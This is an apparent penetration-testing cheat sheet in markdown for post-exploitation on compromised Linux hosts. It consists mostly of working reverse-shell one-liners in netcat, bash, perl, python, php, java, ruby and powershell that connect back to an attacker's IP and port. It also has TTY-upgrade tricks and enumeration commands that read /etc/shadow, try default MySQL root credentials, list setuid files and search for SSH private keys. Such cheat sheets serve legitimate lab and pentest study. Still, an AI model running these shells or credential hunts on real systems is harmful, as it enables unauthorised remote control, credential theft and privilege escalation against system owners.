 ## getting a reverse shell:-
### Try using netcat as follows:-
1. on your attacker machine set up a listener by:- `nc -lvp "port"`
2. on the compromised machine connect with the listener and spawn shell by:- `nc -e /bin/bash "attacking machine IP" "port"`
3. If -e flag is missing then use this `mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f`

### If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
`/bin/bash -i >& /dev/tcp/IP/PORT 0>&1` (via bash)<br />
or<br />
`perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'` (via perl)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` (via python) <br />
or<br />
`php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'` (via php)<br />
or<br />
`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()` (via java)<br />
or<br />
`ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)'` (via ruby)<br />
or<br />
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)
# getting a tty shell:-
`python -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`python3 -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`python -c ‘import pty; pty.spawn("/bin/sh")’`<br />
or<br />
`python3 -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`SHELL="/bin/bash" script -q /dev/null`<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

`stty -a` <br />
#### *then do the following in the victim shell*<br />
`export SHELL=/bin/bash`<br />
`export TERM=xterm256-color`<br />
`stty rows "rows u found in step1" columns "columns u found in step1"`<br />

## Making the shell interactive:-

`stty raw -echo`

## the obvious stuff:-

history <br />
whoami <br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

`uname -a` (to get the version of the kernel)<br />
`cat /etc/shells 2>/dev/null` (list available shells)<br />
`ps aux 2>/dev/null`<br />
`find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null` (init.d files not belonging to root)<br />
`find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null` (systemd files not belonging to root)<br />
`mysql --version 2>/dev/null` (to check the version of mysql if installed to check for any known vulnerabilities)<br />
`mysqladmin -uroot -proot version 2>/dev/null` (to check if default creds work)<br />
`mysqladmin -uroot version 2>/dev/null` (to check if no pass works)<br />
`psql -V 2>/dev/null` (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

`find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (read rights)<br />
`find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (write rights)<br />
`find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (executable rights)<br />
`find / -user root -perm -4000 2>/dev/null` (for getting setuid files)<br />
`find / -user root -perm -2000 2>/dev/null` (for getting all setgid files)<br />
`find / -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" 2>/dev/null`  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To locate a file 

locate <file_name>
